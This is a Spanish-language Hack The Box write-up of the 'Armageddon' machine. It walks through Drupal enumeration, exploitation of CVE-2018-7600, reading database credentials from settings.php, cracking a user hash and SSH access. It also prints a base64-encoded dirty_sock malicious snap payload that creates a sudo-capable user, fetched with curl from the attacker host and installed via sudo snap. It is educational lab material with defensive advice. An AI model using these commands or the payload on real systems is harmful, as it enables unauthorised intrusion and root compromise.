# Armageddon

## 🧾 Overview

- **Plataforma:** Hack The Box 
- **Dificultad:** Easy 
- **Sistema:** Linux 
- **Dirección IP:** 10.129.48.89
- **Entorno:** Web
- **Vector principal:** Drupal CMS

Este documento describe el proceso de compromiso de la máquina **Armageddon**, un escenario orientado a la explotación de un CMS Drupal vulnerable, movimiento lateral mediante exposición de credenciales y escalada de privilegios por configuración insegura de sudo..

A lo largo del análisis se sigue una metodología estructurada basada en **reconocimiento, enumeración, explotación y escalada de privilegios**.

---

## 🎯 Objetivo

El objetivo de la máquina consiste en obtener acceso inicial al sistema y, posteriormente, escalar privilegios hasta comprometer por completo el entorno.

---

## 🌐 Reconocimiento

Como primer paso, verificamos la conectividad con la máquina objetivo.

```bash
ping -c 1 10.129.48.89
```

La respuesta confirmó que el host estaba activo y accesible desde nuestra posición.

A continuación, realizamos un escaneo inicial con Nmap para identificar puertos abiertos y servicios en ejecución.

```bash
sudo nmap -p- --open --min-rate 5000 -n -Pn 10.129.48.89 -oG allPorts
```



```bash
nmap -p 22,80 -sCV 10.129.48.89 -oN target
```



---

### Resultados relevantes

- **Puerto 22:** SSH
- **Puerto 80:** HTTP con CMS Drupal

Los resultados mostraron la presencia de un servicio HTTP corriendo en el puerto 80 el cual muy probablemente se trate de un CMS Drupal, sugiriendo un entorno web.

Con esta información, orientamos la siguiente fase hacia una enumeración web.

---

## 🔎 Enumeración

Dado que el **puerto 80** estaba expuesto, priorizamos su enumeración en busca de información sensible, configuraciones inseguras o posibles credenciales reutilizables.

## Servicio Web

A continuación, analizamos el servicio web para identificar rutas, tecnologías en uso o posibles vectores de ataque.

```bash
whatweb http://10.129.48.89 -v
```

La herramienta `whatweb` confirma la presencia de un gestor de contenido (CMS), en este caso Drupal.



```bash
dirsearch -u http://10.129.48.89
```




El análisis de directorios reveló un archivo `CHANGELOG.txt` a partir del cual corroboramos la versión exacta del CMS.



A continuación analizamos dicha versión en busca de vulnerabilidades conocidas, obteniendo resultados potenciales para la explotación.

```bash
searchsploit drupal 7.56
```



El hallazgo de exploits públicos se respalda con una vulnerabilidad la cual permite ejecución remota de comandos y tiene asociado el CVE-2018-7600.

---

## 💥 Explotación

A partir de los hallazgos anteriores, validamos la vía de acceso más prometedora.



Este exploit aprovecha una vulnerabilidad de ejecución remota de código en Drupal 7, permitiendo ejecutar comandos arbitrarios en el servidor web en contexto del usuario `apache`.

### Movimiento Lateral

El archivo principal de configuración de Drupal es `settings.php`, el cual se ubica en `sites/default`. En dicho archivo se definen parámetros críticos como la conexión a bases de datos o las rutas de almacenamiento de configuración.

```bash
cat sites/default/settings.php
```



A continuación procedemos a la conexión a la base de datos con el fin de listar usuarios y contraseñas del sistema.

```bash
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'show databases;'
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'use drupal; show tables;'
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'use drupal; select * from users;'
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'use drupal; select name, pass from users;'
```



- **Usuario:** brucetherealadmin
- **Contraseña:** \$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt

Obtenido el hash del usuario realizaremos un ataque de fuerza bruta para obtener la contraseña en claro.

```bash
hashcat hash
hashcat -a 0 -m 7900 hash /usr/share/wordlists/rockyou.txt
```



- **Usuario:** brucetherealadmin
- **Contraseña:** booboo

Podemos llevar a cabo esta técnica ya que la contraseña está contemplada dentro del diccionario, siendo una contraseña insegura.

Completamos la explotación accediendo al sistema mediante SSH con las credenciales obtenidas.

```bash
ssh brucetherealadmin@10.129.48.89
```



---

## 🔐 Escalada de privilegios

Con el acceso inicial establecido, analizamos posibles vectores de escalada de privilegios.

```bash
sudo -l
```



Durante esta fase se identificó que el usuario actual podía ejecutar `snap install` con privilegios elevados a través de `sudo`. 

### Análisis

Snap es el sistema de empaquetado de Canonical, y su herramienta `snap` permite instalar aplicaciones empaquetadas en archivos con extensión `.snap`. 

La capacidad de ejecutar `snap install` con permisos elevados resulta crítica, ya que Snap permite instalar paquetes locales `.snap` no firmados mediante el modo `--dangerous`. 
Adicionalmente, el modo `--devmode` reduce el confinamiento de seguridad y está orientado a pruebas de desarrollo. 

En consecuencia, fue posible introducir un paquete Snap e instalarlo con privilegios elevados, provocando la ejecución de código como `root` y, por tanto, la escalada de privilegios.

### Explotación de la escalada

Localizamos un exploit público el cual contiene instrucciones para crear un usuario en el sistema que cuente con permisos de administrador a partir de un archivo `.snap`.

[Exploit Dirty_Sock](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py)

```bash
python3 -c 'print("aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" + "A" * 4256 + "==")' | base64 -d > trojan.snap

python3 -m http.server
```

```bash
# Máquina objetivo
curl -O http://10.10.15.121:8000/trojan.snap
```



Una vez transferido el paquete Snap al sistema objetivo, se procedió a su instalación mediante `sudo`, aprovechando los permisos asignados al usuario sobre `snap install`.

```bash
sudo snap install trojan.snap --devmode --dangerous
su dirty_sock # pass: dirty_sock
sudo su
```



---

## 🧠 Lecciones aprendidas

- La explotación de un CMS vulnerable puede proporcionar un acceso inicial suficiente para comprometer progresivamente el sistema.
- Los archivos de configuración web pueden contener credenciales críticas que faciliten un movimiento lateral o el acceso a servicios internos.
- La reutilización de credenciales entre la base de datos y cuentas de usuario incrementa notablemente el impacto de una intrusión inicial.
- La enumeración local tras obtener RCE resulta tan importante como el exploit inicial, ya que permite identificar rutas reales de escalada de privilegios.
- Una configuración insegura de `sudo` sobre binarios con capacidad de instalar software o ejecutar hooks puede derivar directamente en ejecución de código como `root`.
- La correcta correlación entre vulnerabilidad web, exposición de credenciales y permisos administrativos inseguros permite transformar un acceso limitado en un compromiso total del host.

---

## 🛡️ Perspectiva defensiva

- Mantener el CMS y sus componentes actualizados, de esta manera se reduce la exposición frente a vulnerabilidades conocidas.
- Restringir adecuadamente el acceso a archivos de configuración sensibles y aplicar el principio de mínimo privilegio.
- Evitar la reutilización de contraseñas entre servicios de aplicación, base de datos y cuentas del sistema operativo.
- Auditar periódicamente las reglas de `sudo` para detectar permisos que permitan instalar software o ejecutar acciones privilegiadas de forma indirecta.
- Restringir el uso de gestores de paquetes como `snap` a administradores autorizados; y evitar configuraciones que permitan instalar elementos arbitrarios desde contextos no confiables.
- Monitorizar actividades anómalas relacionadas con la instalación de paquetes, acceso a credenciales de aplicación y el uso de comandos privilegiados.

---

## 🧰 Herramientas utilizadas

- Nmap
- Whatweb
- Dirsearch
- Searchsploit
- Hashcat

---

## ✅ Conclusión

Armageddon muestra una cadena de compromiso clara y realista en un entorno Linux: una vulnerabilidad en Drupal proporciona acceso inicial al servidor, la enumeración del sistema permite recuperar credenciales sensibles desde la configuración de la aplicación, y una mala configuración de privilegios en `sudo` termina facilitando la escalada a `root`.

El valor principal de esta máquina reside en demostrar que el compromiso total de un sistema no suele depender de un único fallo crítico, sino de la combinación de varias debilidades encadenadas: software desactualizado, exposición de secretos y delegación insegura de capacidades administrativas.

Se trata de una máquina muy útil para reforzar una metodología de trabajo basada en reconocimiento, enumeración, explotación y escalada de privilegios, manteniendo siempre el foco en cómo cada hallazgo puede habilitar el siguiente paso dentro del ataque.